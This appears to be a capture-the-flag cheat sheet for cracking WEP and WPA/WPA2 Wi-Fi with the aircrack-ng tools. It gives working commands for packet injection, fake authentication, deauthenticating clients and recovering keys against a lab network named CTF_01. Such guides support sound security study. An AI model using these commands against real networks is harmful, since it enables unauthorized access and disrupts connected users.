 If the arp request replay attack isn't working then the `-p 0841` attack may be used in its place.
```code
$ aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -e CTF_01 wlan0mon
```

### WEP without connected client
The access point must be broadcasting data for this to work. This attack works better by adding the `-h` MAC address.
  1) Monitor and capture the target network traffic using `airodump-ng`.
  2) In a new console execute Fake Authentication attack method.
  3) In a new console execute Fragmentation or chopchop attack methods.
  4) Create an arp packet with `packetforge-ng`.
  5) Inject the arp packet using `aireplay-ng -2`.
  6) Run `aircrack-ng` to obtain the WEP key.

### WEP SKA with client
WEP access point configured to Shared-Key Authentication (SKA) with client. Use a `while true` loop for deauthenticating the client.

1) Monitor and capture the target network traffic.
```code
$ airodump-ng wlan0mon -c 6 -e CTF_01 -w capture
```
2) Force the connected client to deauthenticate to capture the PRGA XOR keystream.
```code
$ aireplay-ng -0 3 -e CTF_01 -c client_mac wlan0mon
```
3) Run the fake authentication attack with the XOR keystream to associate with the target access point.
```code
$ aireplay-ng -1 100 -o 1 -q 10 -e CTF_01 wlan0mon -y capture-01-9C-EF-D5-FB-51-60.xor
```
4) Speed things up with an ARP request replay attack against the target access point.
```code
$ aireplay-ng -3 -e CTF_01 wlan0mon
```
5) Run `aircrack-ng` to obtain the WEP key.

### WPA/WPA2 with clients
Steps to perform an attack on a WPA/WPA2 access point with clients. The pre-shared (PSK) must be in the wordlists used.

There is a bug in versions older than 1.5 where this will fail.
  1) Monitor and capture the target network traffic using `airodump-ng`.
  2) In a new console execute Deauthentication attack method on associated client(s).
  3) Run `aircrack-ng` to obtain the PSK.

### aircrack-ng
Begin cracking IVS file on target BSSID (can perform while airodump-ng is writing).
```code
$ aircrack-ng capture-01.ivs --bssid E0:05:C5:60:2E:65
```

Invoke PTW WEP cracking method method on an arp replay.
```code
$ aircrack-ng -z replay_arp-0309-015802.cap
```
